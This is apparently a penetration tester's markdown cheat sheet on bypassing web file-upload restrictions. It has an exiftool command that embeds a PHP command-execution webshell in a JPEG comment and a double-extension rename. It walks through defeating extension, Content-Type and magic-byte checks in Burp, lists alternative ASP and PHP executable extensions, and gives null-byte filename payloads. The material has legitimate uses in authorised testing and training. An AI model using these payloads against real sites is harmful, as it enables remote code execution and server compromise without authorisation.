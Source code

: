 Upload_restrictions

## Have to work on

https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf

https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/

https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass

http://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/

https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487

https://www.owasp.org/index.php/Unrestricted_File_Upload

## Inject malicious php into a picture

- https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html

---

- another one : https://sushant747.gitbooks.io/total-oscp-guide/bypass_image_upload.html

- ```exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' pic.jpg```
- ```mv pic.jpg pic.php.jpg```

## Example : Bypass security filter to upload php instead of other stuff

- If I submit a simple php webshell instead of a picture, it returns “Invalid file”. There is some filtering going on that I’ll need to bypass.

- I’ll find the allowed upload of a PNG in Burp and send it to Repeater. There are three common ways that a website will check for valid file types by comparing them to an allow- or deny-list:

1. File extension
2. Content-Type header
3. Magic bytes

- I’ll start by changing one at a time to see if the site blocks. First, I’ll change the extension to .php. It works.

- If I change the Content-Type header to application/x-php, it blocks it (even with the file name changed back to .png).

- Changing the content doesn’t seem to matter.

- Based on the filter testing, it seems like I can name a file .php and include PHP code, as long as I change the Content-Type header to a valid image.

## Bypass by changing extension :

- ASP:

.aspx
.config
.ashx
.asmx
.aspq
.axd
.cshtm
.cshtml
.rem
.soap
.vbhtm
.vbhtml
.asa
.asp
.cer
.shtml

- PHP:

.php
.php5
.php3
.php2
.shtml
.html
.php.png
(double extension attack)
What we would typically want to achieve is to circumvent the controls restricting the type of content that can be uploaded onto the website and try to upload something interesting like:

ASP / PHP file with a webshell – RCE
HTML file with Javascript code – XSS
EICAR file – test possibility of hosting malware
Protip: Don’t forget to always try the NULL byte injection trick as well, e.g.:

file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg

https://twitter.com/pwntheweb/status/1288112909520781316
